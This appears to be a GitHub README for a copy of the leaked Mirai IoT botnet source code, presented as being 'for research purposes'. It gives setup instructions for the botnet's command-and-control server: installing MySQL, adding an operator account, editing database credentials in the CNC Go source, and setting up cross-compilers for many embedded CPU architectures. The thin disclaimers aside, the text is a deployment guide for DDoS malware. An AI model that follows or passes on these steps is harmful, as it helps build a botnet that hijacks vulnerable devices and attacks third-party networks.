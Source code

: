 # Mirai BotNet
Mirai DDoS Attack Source Code for Research Development Purposes

Uploaded for research purposes and so we can develop secure env and such.


## Requirements
* gcc
* golang
* electric-fence
* mysql-server
* mysql-client

## Credits

[Anna-senpai](https://hackforums.net/showthread.php?tid=5420472)

##Notice

Please don't play in your office and use controlled environment. Study responsibly.

This is real automation of hacking and attack.

Continue study to secure whatever.

## Architecture

# Configuring CNC

    apt-get install mysql-server mysql-client

CNC requires database to work. When you install database, go into it and run
following sql (scripts/db.sql)

This will create database for you. To add your user,

    INSERT INTO users VALUES (NULL, 'anna-senpai', 'myawesomepassword', 0, 0, 0, 0, -1, 1, 30, '');

Now, go into file [`./mirai/cnc/main.go`](/cnc/main.go)

Edit these values

    const DatabaseAddr string   = "127.0.0.1"
    const DatabaseUser string   = "root"
    const DatabasePass string   = "password"
    const DatabaseTable string  = "mirai"

To the information for the mysql server you just installed

//Install Go

sudo add-apt-repository ppa:ubuntu-lxc/lxd-stable

sudo apt-get update

sudo apt-get install golang

//put this to ~/.bashrc after tools chain and golang is installed.

export PATH=$PATH:/etc/xcompile/armv4l/bin

export PATH=$PATH:/etc/xcompile/armv6l/bin

export PATH=$PATH:/etc/xcompile/i586/bin

export PATH=$PATH:/etc/xcompile/m68k/bin

export PATH=$PATH:/etc/xcompile/mips/bin

export PATH=$PATH:/etc/xcompile/mipsel/bin

export PATH=$PATH:/etc/xcompile/powerpc/bin

export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin

export PATH=$PATH:/etc/xcompile/sh4/bin

export PATH=$PATH:/etc/xcompile/sparc/bin

export PATH=$PATH:/usr/local/go/bin

export GOPATH=$HOME/Documents/go


![alt tag](https://github.com/tinwinaung/Mirai-Source-Code/raw/master/architecture.png)

## Disclaimer

This repository is for academic purposes, the use of this software is your
responsibility.
